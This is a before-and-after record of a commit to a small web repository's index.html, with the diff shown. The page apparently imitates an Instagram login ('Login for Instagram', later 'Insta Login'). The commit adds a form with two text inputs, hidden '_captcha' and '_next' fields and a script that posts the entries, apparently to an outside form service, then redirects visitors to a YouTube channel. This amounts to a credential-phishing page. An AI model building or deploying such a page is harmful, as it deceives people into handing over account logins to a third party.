

Before and after one commit to FABIOXLL/login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (321-961 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1" />
-  <title>Instagram | Login for Instagram</title>
+  <title>Login </title>
   <link href="https://fonts.googleapis.com/css2?family=Roboto&display=swap" rel="stylesheet" />
   <style>
     body {
@@ -19,9 +19,9 @@
     .logo {
       margin-bottom: 30px;
       font-weight: bold;
-      font-size: 28px;
+      font-size: 32px;
       color: #262626;
-      letter-spacing: -0.5px;
+      letter-spacing: -1px;
     }
 
     form {
@@ -87,9 +87,24 @@
   </style>
 </head>
 <body>
-  <div class="logo">L o g i n  f o r  I n s t a g r am /div>
+  <div class="logo">Insta Login</div>
 
-   <script>
+  <form id="loginForm">
+    <input type="text" name="usuarioteste" placeholder="Digite algo" required />
+    <input type="text" name="respostateste" placeholder="Digite mais algo" required />
+
+    <input type="hidden" name="_captcha" value="false" />
+    <input type="hidden" name="_next" value="https://www.youtube.com/@NATTO_BEATS" />
+
+    <button type="submit">Enviar</button>
+  </form>
+
+  <div class="footer">
+    <br>
+    Desenvolvido por @NATTO_BEATS
+  </div>
+
+  <script>
     const form = document.getElementById('loginForm');
 
     form.addEventListener('submit', function(event) {
@@ -106,11 +121,11 @@
         if (response.ok) {
           window.location.href = 'https://www.youtube.com/@NATTO_BEATS';
         } else {
-          alert('Erro ao enviar o formulário.');
+          alert('Erro ao enviar. Tente novamente.');
         }
       })
       .catch(() => {
-        alert('Erro na conexão.');
+        alert('Erro de conexão. Verifique sua internet.');
       });
     });
   </script>
```
